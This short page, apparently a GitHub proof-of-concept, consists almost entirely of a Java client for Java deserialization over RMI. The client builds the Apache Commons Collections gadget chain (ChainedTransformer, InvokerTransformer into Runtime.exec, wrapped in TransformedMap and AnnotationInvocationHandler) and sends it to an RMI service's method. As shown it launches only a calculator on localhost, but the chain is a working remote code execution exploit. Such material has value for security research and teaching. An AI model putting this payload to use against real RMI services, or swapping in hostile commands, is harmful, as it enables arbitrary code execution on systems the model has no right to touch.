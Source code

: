 POC：

```
package eval_rmi;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class UserClient {
    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:3333/User";
        User userClient = (User)Naming.lookup(url);
        System.out.println(userClient.name("test"));
        userClient.say("world");// 这里会在server端输出
        userClient.dowork(getpayload());
    }

    public static Object getpayload() throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("value", "test");
        Map transformedMap = TransformedMap.decorate(map, null, transformerChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, transformedMap);
        return instance;
    }
}


```
